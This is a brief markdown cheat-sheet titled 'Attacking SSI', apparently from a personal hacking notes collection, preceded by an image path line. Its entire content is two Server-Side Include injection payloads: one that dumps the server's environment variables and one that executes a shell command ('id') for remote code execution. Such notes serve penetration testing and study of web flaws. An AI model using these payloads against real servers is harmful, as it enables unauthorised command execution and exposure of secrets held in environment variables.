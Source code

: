 ```yaml
---
tags:
  - hack
---
```

# Attacking SSI

Print the environment:

```text
<!--#printenv -->
```

RCE:

```text
<!--#exec cmd="id" -->
```
